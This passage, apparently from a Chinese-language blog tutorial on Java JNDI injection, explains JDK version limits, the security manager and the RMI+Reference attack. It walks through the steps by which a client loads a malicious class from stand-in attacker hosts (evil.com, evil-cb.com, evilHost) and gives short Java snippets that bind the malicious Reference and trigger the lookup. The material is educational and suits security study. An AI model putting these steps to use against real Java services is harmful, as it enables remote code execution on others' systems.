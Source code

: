 因此，我们在进行JNDI注入之前，必须知道当前环境JDK版本这一前提条件，只有JDK版本在可利用的范围内才满足我们进行JNDI注入的前提条件。

## 安全管理器

Java中的对象分为本地对象和远程对象，本地默认可信任，为了管理和限制就出现了security manager

![img](https://www.mi1k7ea.com/2019/09/15/%E6%B5%85%E6%9E%90JNDI%E6%B3%A8%E5%85%A5/3.png)

对于加载远程对象，JNDI有两种安全控制方式，对于Naming Manager来说，相对的安全管理器的规则比较宽泛，但是对JNDI SPI层会按照下面表格中的规则进行控制

![img](https://www.mi1k7ea.com/2019/09/15/%E6%B5%85%E6%9E%90JNDI%E6%B3%A8%E5%85%A5/4.png)

## RMI+Reference

**\*攻击客户端**

Reference中包含被引用对象的类信息和地址，JNDI中对象传递要么是序列化方式（对象拷贝，对应按值传递），要么是按照引用来存储（对象引用），比如Reference

使用RMI Remote Object的方式利用限制很大，但是使用RMI+JNDI Reference就没有那些限制，不过在JDK 6u132、JDK 7u122、JDK 8u113 之后，系统属性 `com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase` 的默认值变为false，即默认不允许RMI、cosnaming从远程的Codebase加载Reference工厂类

**思路：**将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行**

![img](https://www.mi1k7ea.com/2019/09/15/%E6%B5%85%E6%9E%90JNDI%E6%B3%A8%E5%85%A5/6.png)

1. 攻击者通过可控的 URI 参数触发动态环境转换，例如这里 URI 为 `rmi://evil.com:1099/refObj`；
2. 原先配置好的上下文环境 `rmi://localhost:1099` 会因为动态环境转换而被指向 `rmi://evil.com:1099/`；
3. 应用去 `rmi://evil.com:1099` 请求绑定对象 `refObj`，攻击者事先准备好的 RMI 服务会返回与名称 `refObj`想绑定的 ReferenceWrapper 对象（`Reference("EvilObject", "EvilObject", "http://evil-cb.com/")`）；
4. 应用获取到 `ReferenceWrapper` 对象开始从本地 `CLASSPATH` 中搜索 `EvilObject` 类，如果不存在则会从 `http://evil-cb.com/` 上去尝试获取 `EvilObject.class`，即动态的去获取 `http://evil-cb.com/EvilObject.class`；
5. 攻击者事先准备好的服务返回编译好的包含恶意代码的 `EvilObject.class`；
6. 应用开始调用 `EvilObject` 类的构造函数，因攻击者事先定义在构造函数，被包含在里面的恶意代码被执行；

示例：

```java
Reference reference = new Reference("Exploit","Exploit","http://evilHost/" );
registry.bind("Exploit", new ReferenceWrapper(reference));
```

此时，假设使用 `rmi` 协议，客户端通过 `lookup` 函数请求上面 `bind` 设置的 `Exploit`

```java
Properties env = new Properties();
env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:1099");
Context ctx = new InitialContext(env);
System.out.println("[*]Using lookup() to fetch object with rmi://127.0.0.1:1099/demo");
ctx.lookup("demo");
```

因为绑定的是 `Reference` 对象，客户端在本地 `CLASSPATH` 查找 `Exploit` 类，如果没有则根据设定的 `Reference` 属性，到`URL`： [http://evilHost/Exploit.class](http://evilhost/Exploit.class) 获取构造对象实例，构造方法中的恶意代码就会被执行
